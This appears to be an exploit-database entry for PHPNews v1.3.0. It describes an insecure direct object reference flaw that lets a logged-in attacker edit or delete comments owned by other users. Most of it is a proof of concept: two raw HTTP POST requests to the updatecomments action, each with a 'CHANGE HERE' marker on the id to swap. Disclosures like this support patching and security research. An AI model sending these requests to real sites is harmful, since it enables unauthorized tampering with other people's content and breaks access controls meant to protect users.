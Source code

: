 # Exploit Title: PHPNews v1.3.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://sourceforge.net/projects/newsphp/files/PHPNews%201._/PHPNews%201.3.0/phpnews_1-3-0.zip/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v1.3.0
## Exploit Description:
## PHPNews v1.3.0 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to update or delete comment that owned by other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /index.php?action=updatecomments HTTP/1.1
...

id=3(CHANGE HERE)&name=user1&email=&website=&message=i+am+user1&numcomments=1
```
```
POST /index.php?action=updatecomments HTTP/1.1
...
delete%5B0%5D=1(CHANGE HERE)&ids%5B0%5D=2&numcomments=1
```